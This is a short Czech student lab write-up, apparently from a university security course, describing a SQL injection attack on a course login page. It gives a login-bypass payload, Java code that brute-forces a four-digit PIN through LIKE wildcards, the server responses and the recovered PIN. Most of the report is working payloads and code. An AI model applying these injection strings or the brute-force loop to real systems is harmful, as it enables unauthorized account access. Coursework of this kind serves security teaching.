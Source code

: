 # REPORT - moravja8


## Prolomení login screen a zijštění username
**POST body:** "username= ' OR 1 = 1 AND username like '%moravja8%' OR '&password="
**Response:** <br />
    ```<pre><code><h2>Welcome <font color="green">rux6j_moravja8</font>, enter your four digit PIN number</h2><form id="pin" action="index.php" method="post"><input type="text" maxlength="4" name="pin" placeholder="_ _ _ _" required ><input type="submit" value="Verify"></form><a id="logout" href="index.php?logout">Logout</a></code></pre>```

## Zjištění pinu
**Postup:** pomocí wildcardů v sql injection lze pin bruteforcovat.  
**Kód:**

        for (int i = 0; i < 4; i++) {
            for (int j = 0; j < 10; j++) {
                String pin = String.valueOf(j);
                switch (i){
                    case 0: 
                        pin = pin + "___";
                        break;
                    case 1:
                        pin = "_" + pin + "__";
                        break;
                    case 2:
                        pin = "__" + pin + "_";
                        break;
                    case 3:
                        pin = "___" + pin;
                        break;
                    default:
                        throw new Exception("Bad state");    
                }
                main.sendPost(APP_URL, "username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '" + pin + "' OR '&password=");
            }
        }
**Response** <br />
Pozitivní odpovědi ve formátu "Welcome rux6j_moravja8, enter your four digit PIN number" přišly na následující requesty:

Sending 'POST' request to URL : https://kbe.felk.cvut.cz/ <br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '5___' OR '&password=<br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '_5__' OR '&password=<br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '__1_' OR '&password=<br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '___7' OR '&password=<br />

**Ověření pinu:**<br />
main.sendPost(APP_URL, "username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '5517' OR '&password=");<br />


